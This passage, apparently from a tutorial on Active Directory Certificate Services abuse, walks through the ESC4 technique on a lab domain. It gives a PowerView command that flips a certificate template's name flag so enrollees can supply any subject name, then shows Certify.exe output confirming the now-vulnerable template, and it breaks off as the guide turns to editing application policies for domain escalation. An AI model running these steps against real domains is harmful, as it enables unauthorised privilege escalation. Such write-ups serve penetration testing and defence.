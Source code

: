 ```
PS C:\Tools> Set-DomainObject -SearchBase "CN=Certificate Templates,CN=Public Key Services,CN=Services,CN=Configuration,DC=contoso,DC=local" -Identity ESC4 -XOR @{'mspki-certificate-name-flag'=1} -Verbose

VERBOSE: [Get-DomainSearcher] search base: LDAP://DC01.CONTOSO.LOCAL/CN=Certificate Templates,CN=Public Key
Services,CN=Services,CN=Configuration,DC=contoso,DC=local
VERBOSE: [Get-DomainObject] Get-DomainObject filter string: (&(|(|(samAccountName=ESC4)(name=ESC4)(displayname=ESC4))))
VERBOSE: [Set-DomainObject] XORing 'mspki-certificate-name-flag' with '1' for object ''
PS C:\Tools>
```

To avoid complications, it is preferable to use the `-XOR` option instead of the `-Set` option to edit the flag as above.
We can recover the setting by executing the same command.

The results can be verified using `Certify.exe`, etc.:

```
C:\Tools>Certify.exe find /vulnerable

--snip--

[!] Vulnerable Certificates Templates :

    CA Name                         : CA01.contoso.local\contoso-CA01-CA
    Template Name                   : ESC4
    Schema Version                  : 2
    Validity Period                 : 1 year
    Renewal Period                  : 6 weeks
    msPKI-Certificates-Name-Flag    : ENROLLEE_SUPPLIES_SUBJECT, SUBJECT_ALT_REQUIRE_UPN, SUBJECT_REQUIRE_DIRECTORY_PATH
    mspki-enrollment-flag           : INCLUDE_SYMMETRIC_ALGORITHMS, PUBLISH_TO_DS, AUTO_ENROLLMENT
    Authorized Signatures Required  : 0
    Application Policies            : Encrypting File System
    pkiextendedkeyusage             : Encrypting File System
    Permissions
      Enrollment Permissions
        Enrollment Rights           : CONTOSO\Domain Admins         S-1-5-21-3654360273-254804765-2004310818-512
                                      CONTOSO\Domain Users          S-1-5-21-3654360273-254804765-2004310818-513
                                      CONTOSO\Enterprise Admins     S-1-5-21-3654360273-254804765-2004310818-519

--snip--
```

`ENROLLEE_SUPPLIES_SUBJECT` appears in `msPKI-Certificates-Name-Flag`, so now we can specify any user name as SAN in the ESC4 template.


#### Editting Certificate Application Policy Extension
The final step of setting the vulnerable template for domain escalation is to change the Certificate Application Policy Extension.
As mentioned earlier, Certificate Application Policy Extension are specified with `mspki-certificate-application-policy` attribute.
For authentication, following Key Usage can be used:
